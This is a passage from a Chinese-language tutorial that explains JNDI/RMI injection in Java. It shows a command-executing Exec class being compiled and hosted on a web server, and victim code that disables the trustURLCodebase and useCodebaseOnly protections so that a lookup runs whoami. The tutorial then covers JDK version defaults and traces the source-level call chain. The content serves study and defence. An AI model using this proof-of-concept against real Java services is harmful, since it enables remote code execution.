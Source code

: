             System.out.println(new String(baos.toByteArray()));  
      
            p.waitFor();    }}

将其编译为Exec.class文件，然后拷贝到web目录下  

  * 

    
    
    javac Exec.java

  * 

    
    
    cp Exec.class /var/www/html/

假设client地址为10.0.0.1，构造如下漏洞代码  

  *   *   *   * 

    
    
    System.setProperty("java.rmi.server.useCodebaseOnly", "false");System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");Context context = new  InitialContext();context.lookup("rmi://127.0.0.1/exec");

即可成功执行whoami命令  

![](https://gitee.com/fuli009/images/raw/master/public/20210805141837.png)

其中前两行代码主要用于解除安全限制  

  

在RMI服务中引用远程对象将受本地Java环境限制即本地的java.rmi.server.useCodebaseOnly配置必须为false(允许加载远程对象)，如果该值为true则禁止引用远程对象。除此之外被引用的ObjectFactory对象还将受到com.sun.jndi.rmi.object.trustURLCodebase配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。

  

JDK 5 U45,JDK 6 U45,JDK 7u21,JDK
8u121开始java.rmi.server.useCodebaseOnly默认配置已经改为了true。

  

JDK 6u132, JDK 7u122, JDK
8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值已改为了false。

  

 **深入源码探索**

  

前面提到了，实际原因是触发了object factory，下面我们来看一下具体的触发调用链

![](https://gitee.com/fuli009/images/raw/master/public/20210805141838.png)

核心代码触发代码从decodeObject开始

  *   * 

    
    
    var1为传入的remote接口对象Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
